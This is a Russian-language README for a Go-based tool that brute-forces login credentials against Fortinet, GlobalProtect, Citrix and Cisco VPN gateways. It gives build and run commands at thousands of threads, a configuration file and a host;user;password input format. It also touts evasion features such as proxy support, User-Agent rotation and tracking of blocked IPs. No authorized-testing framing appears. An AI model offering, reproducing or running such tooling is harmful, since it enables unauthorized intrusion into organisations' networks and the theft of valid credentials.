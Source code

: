# VPN Bruteforce Client v2.0

🚀 **High-Performance Go-based VPN Bruteforce Client**

Полностью переписанный с нуля клиент на Go для максимальной производительности и утилизации всех ядер процессора.

## ⚡ Ключевые особенности

- **Максимальная производительность**: Использует все ядра CPU с агрессивным threading
- **Принудительное закрытие соединений**: Быстрая текучая очередь без задержек
- **Поддержка всех VPN типов**: Fortinet, GlobalProtect, Citrix, Cisco
- **Реальная статистика**: Живой мониторинг скорости и результатов
- **Умное управление ресурсами**: Оптимизированное использование памяти и сети
- **Graceful shutdown**: Корректное завершение работы по сигналу

## 🛠️ Установка

```bash
# Клонировать и собрать
git clone <repo>
cd vpn-bruteforce-client
make deps
make build

# Или установить системно
make install
```

## 🚀 Использование

### Базовое использование
```bash
# Fortinet VPN с автоопределением потоков
./vpn-bruteforce -type=fortinet -input=credentials.txt

# Указать количество потоков вручную
./vpn-bruteforce -type=fortinet -threads=2000 -input=creds.txt -output=valid.txt

# С таймаутом и verbose режимом
./vpn-bruteforce -type=globalprotect -threads=1500 -timeout=3 -verbose=true
```

### Все поддерживаемые VPN типы
```bash
# Fortinet FortiGate
./vpn-bruteforce -type=fortinet -threads=2000

# Palo Alto GlobalProtect  
./vpn-bruteforce -type=globalprotect -threads=1800

# Citrix NetScaler
./vpn-bruteforce -type=citrix -threads=1600

# Cisco ASA
./vpn-bruteforce -type=cisco -threads=1400
```

## ⚙️ Конфигурация

Создайте `config.yaml` для тонкой настройки:

```yaml
input_file: "credentials.txt"
output_file: "valid.txt"
vpn_type: "fortinet"
threads: 2000
timeout: 5s
max_retries: 2
verbose: false

# Настройки соединений для максимальной производительности
max_idle_conns: 100
max_conns_per_host: 50
idle_conn_timeout: 30s
tls_handshake_timeout: 10s
```

## 📊 Мониторинг

Клиент выводит реальную статистику каждые 2 секунды:

```
🔥 G:1247 B:8934 E:156 Off:89 Blk:23 | ⚡2847.3/s | ⏱️2m15s
```

- **G**: Валидные учетные данные
- **B**: Неверные учетные данные  
- **E**: Ошибки соединения
- **Off**: Недоступные хосты
- **Blk**: Заблокированные IP
- **⚡**: Скорость обработки в секунду
- **⏱️**: Время работы

## 🎯 Оптимизации производительности

### Агрессивные настройки HTTP клиента:
- `DisableKeepAlives: true` - принудительное закрытие соединений
- `KeepAlive: 0` - отключение keep-alive
- `MaxResponseHeaderBytes: 4096` - ограничение размера ответа
- `ForceAttemptHTTP2: false` - отключение HTTP/2

### Умное управление потоками:
- Автоопределение оптимального количества потоков (CPU cores × 100)
- Семафор для контроля нагрузки
- Worker pool pattern для эффективного распределения задач

### Быстрая обработка ответов:
- Ограниченное чтение ответа (8KB max)
- Немедленное закрытие соединений
- Минимальная обработка HTML

## 🔧 Сборка для разных платформ

```bash
# Linux
make build-linux

# Windows  
make build-windows

# Все платформы
make build-all
```

## 📈 Производительность

На современном сервере (16 cores, 32GB RAM):
- **Скорость**: 3000-5000 запросов/сек
- **Потоки**: 2000-3000 одновременных соединений
- **Память**: ~200-500MB RAM usage
- **CPU**: 100% утилизация всех ядер

## 🛡️ Безопасность

- Отключение проверки SSL сертификатов для тестирования
- Поддержка SOCKS5 прокси
- Ротация User-Agent заголовков
- Контроль rate limiting

## 📝 Формат входных данных

```
192.168.1.1;admin;password123
10.0.0.1;user;qwerty
172.16.1.1;root;admin
# Комментарии игнорируются
```

## 🎛️ Команды Make

```bash
make build      # Собрать для текущей платформы
make run        # Запустить с дефолтными настройками  
make test       # Запустить тесты
make clean      # Очистить артефакты сборки
make perf-test  # Тест производительности
make install    # Установить в систему
```

---

**⚡ Создано для максимальной производительности и эффективности!**